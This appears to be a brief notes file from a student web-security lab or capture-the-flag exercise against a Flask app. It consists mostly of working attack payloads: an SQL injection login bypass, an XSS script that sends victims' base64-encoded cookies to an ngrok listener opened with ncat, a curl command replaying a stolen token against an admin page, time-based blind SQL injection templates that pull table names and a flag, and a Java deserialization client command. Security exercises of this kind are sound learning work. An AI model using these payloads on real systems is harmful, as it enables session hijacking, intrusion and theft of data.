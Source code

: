 Flask
SQL
----------
' or 1=1; -- 


XSS
---------
ncat -klnvp 9000
ngrok http 9000
<script>document.write('<img src="http://340b-2406-3003-2077-4ea9-85b2-4692-1458-96f8.ngrok.io?cookie='+btoa(document.cookie)+'" />');</script>
curl -H "Cookie: token=8abae5d8bc89622b6bf5a76c948312f2" http://127.0.0.1:5000/XSS/admin


SQL Timing Based
--------------
https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet
"' or ((SELECT hex(substr(table_name,{},1)) FROM information_schema.tables limit 1 offset 0)=hex('{}') and 1=1-SLEEP(2)) -- ".format(len(known_data)+1, x)
"' or ((SELECT hex(substr(column_name,{},1)) FROM information_schema.columns where table_name = 'supersecrettable' limit 1 offset 0)=hex('{}') and 1=1-SLEEP(2)) -- "
"user_name": "' or ((SELECT hex(substr(flag,{},1)) FROM supersecrettable limit 1 offset 0)=hex('{}') and 1=1-SLEEP(2)) -- "


Java Insecure Deserialization
-------------------------
cd C:\Program Files\Java\jdk-14.0.2\bin\
java.exe -Dfile.encoding=Cp1252 -classpath "D:\GitAssignment\Flask\test\bin;D:\GitAssignment\Flask\test\lib\commons-collections4-4.0.jar" test.Client


